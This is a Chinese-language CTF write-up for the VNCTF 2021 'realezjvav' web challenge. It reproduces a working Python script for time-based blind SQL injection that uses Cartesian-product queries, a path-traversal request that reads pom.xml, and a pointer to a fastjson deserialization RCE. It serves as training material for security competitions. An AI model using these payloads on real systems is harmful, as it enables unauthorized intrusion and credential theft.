     }
}

## [VNCTF 2021]realezjvav
WP说笛卡尔积盲注 我偏不信 试了下别的方法 都不行 好吧 wsfw
其实在注释里已经写了both  username and password are right , then you can enter the next level
所以不能admin\这种。同时sleep benchmark都被过滤 而且没有回显 必须盲注 只能笛卡尔积试试了。
原理：
SELECT count(*) FROM information_schema.columns A,information_schema.columns B,information_schema.columns C;
根据数据库查询的特点，这句话的意思就是将 A B C 三个表进行笛卡尔积（全排列），并输出 最终的行数，执行效果如下：
执行效果是跑了十分钟都没跑出来 网上看了应该是 count(*) 六千多万
光一个表的话是三千多 一下子就能出来。
那么利用原理就是根据回显速度注入 和时间盲注一个原理(当然回显速度需要对payload进行调整)
官方exp:
import requests
import time
url = "http://cacbd0a9-16f5-497b-8346-dae9d466ddb4.node3.buuoj.cn/user/login"
i = 0
flag = ""
while True :
    i += 1
    head = 32
    tail = 126
    while head < tail :
        mid = head + tail >> 1
        payload = "a' or (if(ascii(substr(password,%d,1))>%d,(SELECT/**/count(*)/**/FROM/**/information_schema.tables/**/A,information_schema.columns/**/B,information_schema.tables/**/C),1))#" % (i,mid)
        data = {"username":"admin" , "password" : payload}
        start_time = time.time()
        r = requests.post(url,data = data)
        print(data['password'])
        end_time = time.time()
        if end_time - start_time > 3:
            head = mid + 1
        else :
            tail = mid
    if head!=32:
        flag += chr(head)
        print(flag)
    else:
        break
注的很慢 因为那语句大概要执行6秒钟
密码no_0ne_kn0w_th1s
进去是创建角色，查看图片路径：http://cacbd0a9-16f5-497b-8346-dae9d466ddb4.node3.buuoj.cn/searchimage?img=2.png
怀疑存在任意文件读取，但是我不知道要读什么 自己随便试了一下：../../../../../../web.xml
不行，查看wp：searchimage?img=../../../../../pom.xml
？说是Spring里面pom.xml放了外部依赖，麻了。
看到fastjson
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.27</version>
</dependency>
rce：https://github.com/CaijiOrz/fastjson-1.2.47-RCE；https://y4tacker.blog.csdn.net/article/details/114949206
flag_no_one_know_abccba.txt
复现还算简单。
